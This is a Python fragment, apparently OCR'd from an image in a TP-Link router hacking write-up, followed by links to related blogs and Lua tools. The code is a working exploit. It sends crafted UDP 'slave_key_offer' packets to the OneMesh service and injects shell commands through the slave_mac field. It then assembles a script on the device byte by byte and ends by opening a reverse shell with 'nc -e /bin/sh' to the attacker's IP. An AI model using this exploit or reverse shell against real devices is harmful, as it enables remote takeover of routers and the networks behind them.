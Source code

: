 ```python
    return packet

# lua -e 'require(\"luci.controller.admin.onemesh\").sync_wifi_specified({mac=\"%s\"})'
def command_inject_once(cmd):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    wrapper = b"';%s'"%(cmd)
    payload = b'''
        {
            "method": "slave_key_offer",
            "data": {
                "group_id": "123",
                "ip": "192.168.1.1",
                "slave_mac": "%s",
                "slave_private_account": "d1tto",
                "slave_private_password": "d1tto",
                "slave": "d1tto",
                "want_to_join": false,
                "model": "123",
                "product_type": "123",
                "operation_mode": "123"
            }
        }
    '''%(wrapper)
    packet = make_packet(7, 1, payload)
    sock.sendto(packet, (ip, port))
    data = sock.recvfrom(10)
    print(data)

def exexute_cmd(cmd):
    for c in cmd:
        tmp = b"printf '%s'>x"%(chr(c).encode())
        command_inject_once(tmp)
        command_inject_once(b"cat x*>>D")
    command_inject_once(b"sh D*")

myip = b"192.168.2.2"
# https://highon.coffee/blog/reverse-shell-cheat-sheet/#telnet-reverse-shell
cmd = b"nc -e /bin/sh %s 8888"%(myip)
exexute_cmd(cmd)
```





https://vovohelo.medium.com/unscrambling-lua-7bccb3d5660

https://github.com/bananabr/ulua



https://blog.dsinf.net/2021/02/hacking-into-tp-link-archer-c6-shell-access-without-physical-disassembly/

